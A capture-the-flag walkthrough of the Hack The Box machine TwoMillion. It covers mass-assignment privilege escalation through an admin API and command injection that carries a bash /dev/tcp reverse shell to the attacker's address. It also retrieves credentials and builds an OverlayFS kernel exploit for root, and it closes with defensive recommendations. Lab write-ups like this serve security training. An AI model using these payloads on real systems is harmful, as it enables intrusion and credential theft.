# HTB - TwoMillion

**IP Address:** `10.10.11.221`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** #ROT13, #Base64, #CookieManipulation, #APIAbuse, #CommandInjection, #OverlayFS, #PrivilegeEscalation  

---
## Synopsis

TwoMillion is an easy Linux machine that celebrates the milestone of 2 million Hack The Box users.  
The exploitation path begins with solving an ROT13-encoded challenge to retrieve an invite code, followed by API manipulation and cookie abuse to escalate privileges to admin.  
Finally, command injection in an API endpoint grants a shell, and root is obtained by exploiting an **OverlayFS** privilege escalation vulnerability.

---
## Skills Required

- Basic cryptography knowledge (ROT13, Base64)  
- Familiarity with web/API testing (curl, cookies)  
- Knowledge of Linux privilege escalation  

## Skills Learned

- Decoding ROT13 and Base64 challenges  
- Interacting with APIs via curl and JSON payloads  
- Exploiting insecure API endpoints with command injection  
- Using OverlayFS vulnerability for root escalation  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We begin by testing connectivity to the target:

```bash
ping -c 1 10.10.11.221
```



The host responds, confirming it is alive.

---
### 1.2 Port Scanning

Scan all TCP ports:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.221 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format



Extract ports from the result

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan with version and default scripts:

```bash
nmap -sCV -p22,80 10.10.11.221 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let’s analyze the result:

```bash
cat targeted -l java
```



**Findings:**

| Port | Service | Version/Description |
|------|---------|---------------------|
| 22   | SSH     | OpenSSH             |
| 80   | HTTP    | Apache httpd        |

---
## 2. Web Enumeration

Accessing `http://2million.htb` shows the **original 2017 HTB design**. Registration requires an invitation code.  



The only way to register is by hacking the website and extracting an invitation code. Normal registration is not possible, so we need to go to the Invite screen and run the command in the browser console:

```bash
makeInviteCode()
```



This reveals an ROT13-encoded string. Using `tr`, we decode it:

```bash
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```



The decoded message points us to `http://2million.htb/api/v1/invite/generate`.  

We perform the POST request:

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq
```



The result is still Base64 encoded, so we decode it:

```bash
echo "OVVSVVMtVDY0TlctMzRSOE0tUDExMUw=" | base64 -d; echo
```


We now have a valid invite code, register, and log into the platform.  




---
## 3. API Exploration

Inside the user panel, two API endpoints are present:

- `/api/v1/user/vpn/generate`  
- `/api/v1/user/vpn/regenerate`  



We first try to enumerate the API:

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```



The response is *Unauthorized*. Using our session cookie, we retry:

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" | jq
```



Now we see two sections: `user` and `admin`.

Checking admin authentication:

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" | jq
```



Our user is not admin. Let's try a POST:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -v
```



We are not authorized again.

---
## 4. Privilege Escalation via API Manipulation

Trying a PUT request to update settings:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=..." | jq
```



The response indicates `invalid content-type`. After trying several combinations, we fix this with JSON headers:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"email":"test@test.com", "is_admin":1}' | jq
```



We confirm our user is now admin:

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=..." | jq
```



---
## 5. Command Injection

With admin rights, we attempt VPN generation again:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"username": "test"}' -v
```



Testing command injection with metacharacters (`;`, `#`) confirms that code execution is possible



We exploit it with a reverse shell:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=33p82fj5ja1stpangee056hbu2" -H "Content-Type: application/json" -d '{"username": "test; bash -c \"bash -i >& /dev/tcp/10.10.14.7/443 0>&1\";"}'
```

On our listener:

```bash
nc -nlvp 443
```



We successfully obtain a shell.

---
## 6. Post-Exploitation

Stabilize the shell:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

We enumerate files and discover credentials inside `.env`:



This file contains the admin credentials. We also retrieve the **user flag**:



---
## 7. Privilege Escalation

Searching for files owned by `admin`:

```bash
find / -user admin 2>/dev/null | grep -vE "sys|proc"
```



We discover `/var/mail/admin`, which contains a hint about an unpatched **OverlayFS vulnerability**.

We download the exploit from GitHub, host it with Python, and transfer it:

```bash
python3 -m http.server 80
wget http://10.10.14.7/file.zip
unzip file.zip
make all
```




Log in as admin via SSH using the leaked credentials:



Execute the exploit:

```bash
./exp
```



✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **ROT13 Decode** → Invitation API discovered.  
2. **Base64 Decode** → Extracted valid invite code.  
3. **API Abuse** → Upgraded user to admin via PUT request.  
4. **Command Injection** → Reverse shell via `/api/v1/admin/vpn/generate`.  
5. **OverlayFS Exploit** → Privilege escalation to root.  

---
## Defensive Recommendations

- Validate and sanitize all API inputs to prevent **command injection**.  
- Do not rely on client-side encoding/obfuscation (ROT13/Base64) for security.  
- Enforce strict role checks on sensitive API endpoints.  
- Patch kernel vulnerabilities (OverlayFS) immediately.  
- Use proper logging and alerting for suspicious API activity.  
